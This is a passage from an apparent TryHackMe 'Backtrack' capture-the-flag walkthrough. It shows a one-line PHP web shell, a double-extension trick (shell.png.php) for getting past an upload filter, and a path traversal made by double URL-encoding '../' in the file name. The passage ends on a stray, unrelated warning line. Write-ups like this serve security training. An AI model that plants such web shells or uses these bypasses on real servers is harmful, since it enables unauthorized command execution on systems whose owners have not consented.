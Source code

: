 When we try to upload this file as it is, it produces an error message that tells us that the extension is not allowed.
![](/assets/img/posts/walthrough/tryhackme/2024-10-17-backtrack/error-1.png)

We can bypass this by adding a valid image extension before the PHP extension.
![](/assets/img/posts/walthrough/tryhackme/2024-10-17-backtrack/upload-1.png)

The file `shell.png.php` was uploaded successfully but when it is accessed the code is not executed but instead returned as plain text.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ curl http://127.0.0.1:8080/uploads/shell.png.php?cmd=id
<?php system($_GET["cmd"]); ?>  
```

This might be due to some specific server configuration. We can attempt to upload a file in another directory by adding `../` to the file's name. This works successfully after URL encoding `../` twice. 
![](/assets/img/posts/walthrough/tryhackme/2024-10-17-backtrack/upload-success.png)


[WARNING]: provided hosts list is empty, only localhost is available. Note that
